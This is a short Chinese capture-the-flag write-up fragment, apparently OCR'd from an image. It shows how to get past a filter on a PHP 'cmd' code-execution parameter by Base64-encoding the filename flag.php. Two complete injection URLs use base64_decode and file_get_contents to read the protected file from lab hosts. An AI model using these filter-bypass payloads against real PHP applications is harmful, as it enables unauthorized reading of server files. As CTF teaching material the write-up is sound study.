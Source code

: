 1. 可通过 Base64 编码/解码绕过过滤。  
  
第一种想法：  

```
http://192.168.186.128/?cmd=$a=base64_decode(%27ZmxhZy5waHA=%27);echo%20base64_encode(file_get_contents($a));

```

  
第二种想法：  

```
http://192.168.20.225:47938/?cmd=print(base64_encode(file_get_contents(base64_decode(%22ZmxhZy5waHA=%22))));

```

  
但是其实不管是第一种想法还是第二种想法，思路都是一样的。先将
```
flag.php
```

  
编码为
```
ZmxhZy5waHA=
```

  
，然后用
```
base64_decode
```

  
去解码，解码后的内容就是flag.php了。  

```
file_get_contents(base64_decode(%22ZmxhZy5waHA=%22))；

```

  
其实上述代码，等效于
```
file_get_contents(&#34;flag.php&#34;)；
```

  
但是由于
```
flag.php
```

  
被过滤了，所以只能如此。  
  
如果要1:1还原，则将flag放置在
```
/tmp/flag.cisp
```
